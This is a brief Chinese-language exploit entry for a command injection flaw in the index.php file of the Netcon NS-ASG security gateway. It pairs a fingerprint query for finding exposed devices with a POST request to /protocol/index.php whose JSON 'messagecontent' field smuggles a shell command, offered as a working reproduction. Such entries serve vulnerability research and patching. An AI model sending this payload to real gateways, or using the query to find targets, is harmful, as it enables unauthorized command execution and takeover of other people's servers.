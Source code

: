 # 

# 网康 NS-ASG安全网关 index.php 远程命令执行漏洞

## 漏洞描述

网康 NS-ASG安全网关 index.php文件存在远程命令执行漏洞，攻击者通过构造特殊的请求包可以获取服务器权限

## 漏洞影响

```
网康 NS-ASG安全网关
```

## 网络测绘

```
title=="网康 NS-ASG 应用安全网关"
```

## 漏洞复现

登录页面

![image-20230314085700163](images/image-20230314085700163.png)

存在漏洞的文件为 /protocol/index.php ，通过文件读取可以获取到源码

![image-20230314085713446](images/image-20230314085713446.png)

![image-20230314085722233](images/image-20230314085722233.png)

通过构造请求包进行命令拼接漏洞执行命令

```
POST /protocol/index.php
  
jsoncontent={"protocolType":"getsysdatetime","messagecontent":"1;id>1.txt;"}
```

![image-20230314085737042](images/image-20230314085737042.png)

![image-20230314085745134](images/image-20230314085745134.png)
